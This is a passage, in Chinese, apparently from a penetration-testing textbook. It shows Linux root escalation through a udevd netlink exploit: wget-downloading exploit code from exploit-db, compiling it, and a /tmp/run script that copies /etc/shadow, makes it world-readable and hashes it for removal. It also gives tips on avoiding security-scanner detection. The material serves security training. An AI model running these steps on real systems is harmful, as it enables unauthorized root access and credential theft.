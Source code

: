现在，您可以从网站下载漏洞并将其传输到系统，或者我们可以通过命令行进行欺骗并完成它。只需运行以下命令：

```
wget http://www.exploit-db.com/download/8572 -O escalate.c

```

这将下载该漏洞并将其保存为一个`code`，以便在本地主机上编译和执行。

![Gaining root access to the system](graphics/B04315_05_16.jpg)

我们需要找到`gcc`编译器，并验证它是否在我们的路径中，以便于执行，然后在目标系统上编译代码。这可以按如下方式完成，即`gcc`，然后可以使用`gcc`使用以下命令`gcc escalate.c -o escalate`将代码编译成漏洞攻击。这将输出名为`escalate`的新可执行二进制文件。

### 提示

在实际系统上执行此操作时，不要命名文件`exploit`、`escalate`、`shell`、`pwned`或任何类似的名称。这些是许多安全工具扫描的常见名称，因此它们可以在执行之前进行标记。就本例而言，这并不重要。

现在，编译的漏洞被称为`escalate`，一旦我们确定了一些其他信息组件，就可以运行该漏洞。此漏洞利用 udevd netlink 套接字进程，因此我们需要识别该进程并将漏洞传递给**进程标识符**（**PID**）。这可以在引用服务`/proc/net/netlink`的文件中找到。您可以通过执行以下命令`cat /proc/net/netlink`来识别细节：

![Gaining root access to the system](graphics/B04315_05_17.jpg)

### 注

请记住，您的 PID 可能会有所不同。

此漏洞，特别是执行一个脚本，其中包含写入文件`/tmp/run`的命令。因此，让我们将`/etc/shadow`文件复制到`/tmp`，因为我们首先尝试访问该数据。我们还需要验证复制的文件是否与原始文件相同；我们可以通过获取每个文件的**消息摘要 5**（**MD5**并将结果放入`/tmp`中另一个名为`hashes`的文件中来轻松实现这一点。在`/tmp`中创建一个名为 run 的文件，并添加以下内容：

```
#!/bin/bash
cp /etc/shadow /tmp/shadow
chmod 777 /tmp/shadow
md5sum /tmp/shadow > /tmp/hashes
md5sum /etc/shadow >> /tmp/hashes

```

然后，使用您试图利用的特定进程的参数运行利用漏洞攻击。下图显示了`gcc`编译器的标识、漏洞的编译、执行和结果证明：

![Gaining root access to the system](graphics/B04315_05_18.jpg)

### 注

可以直接卸载文件，而不移动并复制它，但通常情况下，您不会将系统的用户名和密码写入已被利用的框中的文件，因为您永远不知道该框中已经有谁。此外，本示例的设计思想是，系统上可能不存在像`netcat`这样的简单端口重定向工具。

然后通过比较两个文件的 MD5 哈希并将其写入`/tmp/hashes`文件，验证复制文件的内容是否与`/etc/shadow`文件相同。然后可以将新复制的文件从系统复制到攻击框中。

### 提示

在真实环境中要始终非常小心，当您复制`passwd`或卷影文件时，可能会破坏目标系统。因此，请确保不要删除、重命名或移动原件。如果在目标系统的其他位置复制，请将其删除，以免帮助真正的攻击者。
